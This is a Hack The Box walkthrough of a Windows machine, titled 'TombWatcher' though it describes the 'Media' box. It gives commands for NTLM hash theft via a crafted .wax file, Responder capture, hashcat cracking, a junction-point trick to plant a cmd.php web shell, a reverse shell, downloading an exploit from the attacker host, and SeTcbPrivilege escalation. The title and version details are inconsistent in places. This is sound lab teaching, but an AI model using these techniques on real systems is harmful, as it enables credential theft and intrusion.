<h1>HTB: TombWatcher</h1>


| Field      | Details                                                          |
|------------|------------------------------------------------------------------|
| Platform   | [Hack The Box](https://app.hackthebox.com/machines/Media)  |
| Difficulty | Medium                                                           |
| OS         | Windows                                                          |
| Author     | ByteFragment                                                     |
| Date       | July 16th 2026                                                   |

--- 

<h2>Enumeration</h2>

<h3>NMAP</h3>

Port scanning the target using nmap via the command:

```
sudo nmap -sC -sV -T4 -p- 10.129.234.67 -oN nmap
```

This gave me the open TCP ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap`.

From the nmap results, we can see that the target machine is running an ssh server on port 22, an http server running `Apache 2.4.6` on port 80 and RDP service on port 3389.

We also gain information on the target such as its Domain : `MEDIA`.

```
Nmap scan report for 10.129.234.67
Host is up (0.085s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_9.5 (protocol 2.0)
80/tcp   open  http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-title: ProMotion Studio
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-07-16T22:42:27+00:00; +3s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: MEDIA
|   NetBIOS_Domain_Name: MEDIA
|   NetBIOS_Computer_Name: MEDIA
|   DNS_Domain_Name: MEDIA
|   DNS_Computer_Name: MEDIA
|   Product_Version: 10.0.20348
|_  System_Time: 2026-07-16T22:42:22+00:00
| ssl-cert: Subject: commonName=MEDIA
| Not valid before: 2026-07-15T22:33:39
|_Not valid after:  2027-01-14T22:33:39
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

<h3>Web Recon</h3>

Before we visit the webpage let's add `media.htb` into our /etc/hosts file:



Then we can use a web browser to visit the url which returns a webpage for a web design company:


Using `Wappalyzer` we can confirm that it is running `Apache 2.4.56` on Windows and also see that it is using `PHP 8.1.17`:



At the very bottom of the page we see a `Join Our Team` form where we can `Upload a brief introduction video (compatible with Windows Media Player)`. The specification of having to be compatible with windows media player is interesting. 

Let's do a simple test with some junk data:



Hitting the `Upload File` button sends a POST request and creates a popup telling us that HR shall review our video. 

<h2> Exploitation</h2>

<h3>VL-Media</h3>

Searching for "windows media player file exploit site:github.com" we find that this [GitHub](https://github.com/Greenwolf/ntlm_theft) repo from user `Greenwolf` that contains an exploit python script. This script `ntlm_theft.py` generates a malicious file that steals the NTLM hash of the user. It supports various file types and a couple of different trigger methods including "Browse to Folder Containing" and "Click Link in Chat Program".

We however are interested in the two Windows Media Player file extensions listed under the "Open Document" trigger method, the `.wax` and `.asx`:



Let's start with the `.wax` file which we can generate using the command:

```
python3 ntlm_theft.py -g wax -s 10.10.15.16 -f video_file
```



Before we attempt to upload the file we need to set up a `responder` in order to listen for connections made from the target machine when the malicious file is opened:

```
sudo responder -I tun0
```

We specify `tun0` since that is the interface of our Hack the Box vpn connection.

Then we can upload the malicious file! When the file browser pops up for you to select the malicious file you may have to change the format in the bottom right from `Video Files` to `All Files` in order to see your file:



After we upload the file we check our `responder` and after a few seconds we see we have retrieved the NTLM hash for the user `enox`:



Now let's copy it to a file and attempt to crack the NTLM hash using `Hashcat`.

<h3>Hashcat</h3>

Using the `hashcat -hh` command we can search for the hash id number that we need, in this case `5600`:



We can now run the command below to start cracking the hash:

```
hashcat -m 5600 enox.hash -D 1 /usr/share/wordlists/rockyou.txt
```



Success! We now have the enox user's password.

Let's use these credentials to SSH into the target machine:



The user flag can be found in the Desktop folder:



<h2>Enumeration</h2>

Looking in enox's Documents directory we find a `review.ps1` powershell script:



Printing the contents of the script we see it contains two functions (`Get-Values` and `UpdateTodo`) and a while-true loop:



The loop references a directory `C:\Windows\Tasks\uploads` so let's check it out:



The directory contains an empty `todo.txt' file and two directories with a series of alphanumeric characters as the title which tracks given the review.ps1 script.

Listing the contents of one of those directories we see it contains the `video_file.wax` file we uploaded earlier:



Let's continue enumerating by checking `C:\`:



The `xampp` directory jumps out as it is a web server solution stack package developed by Apache Friends:



Listing the contents of the `xampp` directory we see it contains various files and subdirectories. We are particularly interested in the `htdocs` folder as "In the xampp PHP server, files are served by default from c:/xampp/htdocs directory" - [Tony Ayeni](https://tonyfrenzy.medium.com/xampp-serving-from-any-directory-outside-of-htdocs-22a93f1b8815)



Listing the htdocs directories contents we see the `index.php` for the webpage from earlier:



From the contents of the `index.php` file we can confirm that the files uploaded from the webpage are stored in `C:/Windows/Tasks/Uploads/`. We also find that the folder name is an `md5` hash of the contents of the upload form field so  `md5($firstname . $lastname .$email)`:



Let's go back to the uploads directory and see what permissions we have over the files using `icacls`:



In the results we see a reference to a `LOCAL SERVICE` account, this is most likely the Apache service account. We can also see that Everyone has Full (F)access rights over the directory meaning they can read, write, and execute.

Checking the access control rights on the files inside the md5 folders using:

```
get-acl * | select owner
```

we confirm they are also owned by `NT AUTHORITY\LOCAL SERVICE`.

Let's go back and check the permissions on the htdocs directory:



From this we see that we cannot alter the contents of this folder as the user `enox` as indicated by:

```
BUILTIN\Users:(I)(OI)(CI)(RX)
```

With the <b>(RX)</b> indicating we only have read and execute permissions.

<h2>Lateral Movement</h2>

So we have obtained the following information:

1. The name of the uploads directory for any given upload is the md5 hash of the information filled out in the upload form.

2. We have full access over the uploads directory and the actual upload folders.

3. We only have read/execute access on the htdocs directory

So how can we use this information to create a path forward? 

For this we will take advantage of Microsoft `Junction Points` which are "a type of reparse point which contains a link to a directory that acts as an alias of that directory." - [GeeksforGeeks](https://www.geeksforgeeks.org/operating-systems/creating-junction-points/).

What we will do is remove the directory for our malicious file upload, so in our case it would be the `66d5a9b2dd55561a8c17216cd4a2bb73` directory. 

Then since we know that if we upload another file making sure to use the exact same form contents it will create a directory with the same name, we can create a Junction point that links the path `C:\Windows\Tasks\Uploads\66d5a9b2dd55561a8c17216cd4a2bb73` to the `C:\xampp\htdocs` directory.

What this will do is allow us to upload a file into the htdocs folder sidestepping the access permissions!

So let's begin by removing the `66d5a9b2dd55561a8c17216cd4a2bb73` directory:

```
remove-item .\66d5a9b2dd55561a8c17216cd4a2bb73\ -Recurse
```

Then we can create a junction point so that when we upload the next file, which will have the same folder name since we will use the same form contents, it will actually upload to the linked htdocs folder:

```
New-Item -ItemType Junction -Path "C:\Windows\Tasks\Uploads\66d5a9b2dd55561a8c17216cd4a2bb73" -Target "C:\xampp\htdocs"
```



Listing the Uploads folder contents again we can see that a new directory was created using the same md5 hash name but with a small difference. We can see that in the bottom left under the Mode section the `66d5a9b2dd55561a8c17216cd4a2bb73` has an `l` indicating it is a link.

Let's now upload this `cmd.php` file so that we can obtain code execution as the service account:



Again when we upload it we need to use the exact same form field as we did for the file whose directory we just deleted and created a junction for:



Checking the contents of the htdocs directory we see the cmd.php file was successfully uploaded!



Now we will try and run the `whoami` command by visiting the url:

```
[http://media.htb/cmd.php?cmd=whoami](http://media.htb/cmd.php?cmd=whoami)
```



Great! We can now use this to gain a reverse shell using this command from [revshells](https://www.revshells.com/):



Setting up a netcat listener and then visiting the url again but this time replacing the `whoami` command with this base64 encoded powershell reverse shell command gives us a reverse shell:



<h2>Privilege Escalation</h2>

Looking at our account privileges, we see some interesting permissions:



Searching for:

```
setcbprivilege privilege escalation site:github.com
```

We find this [github](https://github.com/b4lisong/SeTcbPrivilege-Abuse/blob/main/TcbElevation-x86.exe) repo by `b4lisong` that provides us with a POC executable!

After setting up a python web server in the directory we downloaded the exploit to we can transfer it to the target machine by going to our reverse shell and running:

```
iwr [http://10.10.15.16:8000/TcbElevation-x64.exe](http://10.10.15.16:8000/TcbElevation-x64.exe) -outfile TcbElevation-x64.exe
```

We can then execute it to add `enox` to the Administrators group:

```
.\TcbElevation-x64.exe elevate 'net localgroup Administrators enox /add'
```

and then check to see if we were successful by running the command:

```
net localgroup Administrators
```

and checking the results:



We then need to exit our of our ssh connection as enox and then log back in to update our privileges.

After doing so we can access the Administrators Desktop and obtain the root flag:





Thus solving the challenge:


